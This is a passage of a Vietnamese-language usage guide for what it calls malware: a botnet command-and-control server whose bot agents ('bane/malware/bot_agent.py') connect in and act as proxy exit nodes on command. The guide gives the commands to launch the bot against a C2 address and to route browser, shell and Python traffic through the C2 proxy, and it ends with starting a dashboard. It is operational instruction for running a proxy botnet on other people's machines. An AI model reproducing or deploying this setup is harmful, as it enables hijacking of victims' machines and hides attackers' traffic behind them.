 **Tham số:**
- `--c2-host`: IP của C2 server (mặc định: 0.0.0.0)
- `--c2-port`: Port cho bot connections (mặc định: 7777)
- `--proxy-port`: Port cho client proxy requests (mặc định: 8080)

### 2. Kết Nối Bot Agent

```bash
# Trên máy bot
python3 bane/malware/bot_agent.py --c2-host C2_IP --c2-port 7777
```

Bot sẽ tự động:
- Kết nối đến C2 server
- Bật chế độ proxy khi nhận lệnh `ENABLE_PROXY_MODE`
- Trở thành exit node cho proxy chain

### 3. Cấu Hình Client Proxy

#### A. Browser (SwitchyOmega):
```
Proxy Server: C2_IP:8080
Protocol: HTTP
```

#### B. Command Line:
```bash
export http_proxy=http://C2_IP:8080
export https_proxy=http://C2_IP:8080

# Test proxy
curl http://httpbin.org/ip
```

#### C. Python:
```python
import requests

proxies = {
    'http': 'http://C2_IP:8080',
    'https': 'http://C2_IP:8080'
}

response = requests.get('http://httpbin.org/ip', proxies=proxies)
print(response.json())
```

### 4. Web Dashboard

```bash
# Khởi động web dashboard
python3 scripts/proxy_web_dashboard.py --host 0.0.0.0 --port 5000
```
